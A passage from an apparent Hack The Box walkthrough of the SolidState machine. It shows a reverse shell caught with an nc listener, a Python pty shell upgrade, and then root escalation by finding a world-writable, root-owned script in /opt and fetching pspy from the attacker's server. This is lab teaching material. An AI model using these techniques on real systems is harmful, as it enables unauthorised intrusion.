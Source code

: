 You can see in the error that it’s trying to run everything from `0xdf@10.10.14.47` to the `FROM: 0xdf@10.10.14.47` as one command, due to the added `'`.

At my `nc` listener, I got a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )              
Ncat: Listening on :::443                                 
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.51.          
Ncat: Connection from 10.10.10.51:49590.
python -c 'import pty;pty.spawn("bash")'
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$

```

I’ll look at improving the experience for mindy in [Beyond Root](#better-user-experience).

## Priv: mindy –> root

### Enumeration

In just looking around the file system, I usually check `/opt` and `/srv`, expecting to find both empty on most HTB machines. So finding a world-writable root-owned Python script in `/opt` caught my eye:

```

${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ ls -l /opt/
total 8
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py

```

The script itself doesn’t do anything too interesting:

```

#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

```

### PSpy

Given that file, I want to see if it’s being run, so I’ll upload [PSpy](https://github.com/DominicBreuker/pspy). I’ll start a Python webserver in my Pspy directory, and then grab the file with `wget` (grabbing the 32 bit version since this machine is 32 bit):
